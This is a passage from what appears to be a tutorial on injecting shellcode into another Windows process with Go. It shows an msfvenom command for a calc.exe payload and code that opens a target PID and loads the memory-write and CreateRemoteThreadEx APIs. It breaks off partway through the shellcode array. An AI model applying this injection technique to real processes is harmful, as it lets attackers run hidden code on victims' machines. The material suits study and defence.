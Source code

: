For this task, our new api to be used is <b>CreateRemoteThread</b>, let's reuse the last example and add the new code lines needed.

The payload was generated with msfvenom:
```
msfvenom -p windows/exec CMD=calc.exe EXITFUNC=process -f csharp
```

```golang
package main

import (
   "bufio"
   "fmt"
   "log"
   "os"
   "strconv"
   "strings"
   "unsafe"

   "golang.org/x/sys/windows"
)

var (
   kernel32dll        = windows.NewLazyDLL("kernel32.dll")
   virtualAlloc       = kernel32dll.NewProc("VirtualAllocEx")
   virtualProtect     = kernel32dll.NewProc("VirtualProtectEx")
   writeProcessMem    = kernel32dll.NewProc("WriteProcessMemory")
   CreateRemoteThread = kernel32dll.NewProc("CreateRemoteThreadEx")
)

func main() {
   fmt.Printf("Allocate memory in remote process.\n\n")

   fmt.Printf("Target PID: ")
   p := readUserIn()

   pid, err := strconv.Atoi(p)
   if err != nil {
      log.Fatal("Error when converting string")
   }

   process, _ := windows.OpenProcess(
      windows.PROCESS_CREATE_THREAD|
      windows.PROCESS_VM_OPERATION|
      windows.PROCESS_VM_WRITE|
      windows.PROCESS_VM_READ|
      windows.PROCESS_QUERY_INFORMATION, 
      false, 
      uint32(pid)
   )

   fmt.Printf("Process Handle: %d\n", process)
   fmt.Printf("Allocating: 4096 bytes\nPermission: RWX\n")

   shellcode := []byte{0xfc, 0xe8, 0x82, 0x00, 0x00, 0x00, 0x60, 0x89, 0xe5, 0x31, 
      0xc0, 0x64, 0x8b, 0x50, 0x30, 0x8b, 0x52, 0x0c, 0x8b, 0x52, 0x14, 0x8b, 0x72, 
      0x28, 0x0f, 0xb7, 0x4a, 0x26, 0x31, 0xff, 0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 
      0x20, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0xe2, 0xf2, 0x52, 0x57, 0x8b, 0x52, 0x10, 
      0x8b, 0x4a, 0x3c, 0x8b, 0x4c, 0x11, 0x78, 0xe3, 0x48, 0x01, 0xd1, 0x51, 0x8b, 
      0x59, 0x20, 0x01, 0xd3, 0x8b, 0x49, 0x18, 0xe3, 0x3a, 0x49, 0x8b, 0x34, 0x8b,
      0x01, 0xd6, 0x31, 0xff, 0xac, 0xc1, 0xcf, 0x0d, 0x01, 0xc7, 0x38, 0xe0, 0x75, 
      0xf6, 0x03, 0x7d, 0xf8, 0x3b, 0x7d, 0x24, 0x75, 0xe4, 0x58, 0x8b, 0x58, 0x24, 
      0x01, 0xd3, 0x66, 0x8b, 0x0c, 0x4b, 0x8b, 0x58, 0x1c, 0x01, 0xd3, 0x8b, 0x04, 
      0x8b, 0x01, 0xd0, 0x89, 0x44, 0x24, 0x24, 0x5b, 0x5b, 0x61, 0x59, 0x5a, 0x51, 
```